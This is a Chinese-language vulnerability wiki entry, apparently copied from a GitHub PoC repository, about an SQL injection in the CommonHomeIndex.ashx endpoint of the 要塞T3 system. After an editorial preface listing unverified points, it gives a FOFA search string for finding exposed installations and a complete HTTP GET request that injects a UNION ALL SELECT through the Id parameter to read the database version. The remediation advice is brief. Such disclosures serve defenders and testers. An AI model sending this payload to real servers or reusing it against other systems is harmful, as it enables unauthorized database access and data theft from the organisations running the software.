

# 要塞T3 CommonHomeIndex SQL注入漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：要塞T3 CommonHomeIndex
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：带SessionCookie需核权限条件；版本和修复未知
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. FOFA截断且在野利用/影响面状态无来源
2. 带SessionCookie需核权限条件
3. 版本和修复未知
4. SQL五列union与其他T3两列不同，应按端点/根因分析而非模板删重
5. 需响应文字证据

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

要塞T3 CommonHomeIndex处存在 SQL注入漏洞，攻击者可以利用该漏洞执行任意 SQL 查询，可能导致敏感数据泄露或数据库被完全控制。

# 影响版本

要塞T3

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="T3/MAIN/Login.aspx"

POC/EXP：

```
GET /frame/CommonHomeIndex.ashx?action=getdeptpersonList&Id=%27%20UNION%20ALL%20SELECT%20NULL%2C%40%40version%2CNULL%2CNULL%2CNULL-- HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=rkp******************3cw
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
